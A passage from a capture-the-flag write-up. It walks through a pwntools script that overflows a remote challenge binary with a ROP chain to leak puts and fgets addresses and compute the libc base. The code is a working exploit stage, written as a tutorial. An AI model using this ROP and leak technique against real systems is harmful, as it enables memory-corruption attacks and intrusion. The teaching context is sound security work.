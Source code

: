 We can see all of the offsets of the commonly used functions that people like to call. Notice how we've got things like system, and str_bin_sh. These are really handy, and you'll see why in a minute

Because we have the leaked address of puts(), and we know the offset of puts in libc, we can do some simple maths to calculate the **base of libc**. This is where libc begins in memory, and if you remember from earlier, the functions are always at the same offsets. So if we know the base, we know where every single function is in libc. Pretty neat! Let's add some more code to calculate libc base.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory                                                            │
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

libc_puts = 0x875a0 #From libc.rip
libc_base = (leaked_puts - libc_puts) #Simple maths
log.info(f'Libc base is: {hex(libc_base)}')

cheese.interactive() #So our connection doesn't die
```

![Untitled%2012.png](Untitled%2012.png)

